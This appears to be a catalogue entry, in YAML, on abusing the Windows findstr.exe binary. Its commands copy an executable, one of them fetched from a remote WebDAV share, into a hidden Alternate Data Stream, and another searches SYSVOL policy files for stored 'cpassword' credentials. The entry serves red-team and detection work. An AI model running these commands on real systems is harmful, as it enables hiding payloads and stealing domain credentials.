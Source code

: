 ---
Name: Findstr.exe
Description: Add ADS, Search
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe
    Description: 'Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.'
  - Command: findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
    Description: 'Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.'
  - Command: findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
    Description: 'Search for stored password in Group Policy files stored on SYSVOL.'
Full Path:
  - c:\windows\system32\findstr.exe
  - c:\windows\sysWOW64\findstr.exe
Code Sample: []
Detection: []
Resources:
  - https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Notes: Thanks to Oddvar Moe - @oddvarmoe

